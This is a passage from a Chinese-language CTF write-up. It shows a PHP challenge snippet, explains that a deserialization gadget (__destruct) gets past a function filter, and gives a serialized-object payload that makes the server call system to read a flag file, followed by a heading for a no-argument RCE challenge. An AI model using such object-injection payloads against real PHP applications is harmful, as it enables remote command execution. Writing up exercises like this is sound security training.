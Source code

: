 ```php
        echo gettime($func, $p);
    }else {
        die("Hacker...");
    }
}
?>
```

有一个 Test 类, 猜测是反序列化

通过 `__destruct` 执行命令可以绕过检测, 而刚好 unserialize 没有被过滤

payload 如下

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```

![](assets/202208251707093-170074459625441.png)

## [GXYCTF2019]禁止套娃（无参数RCE）


![](assets/202208251748275-170074459625443.png)
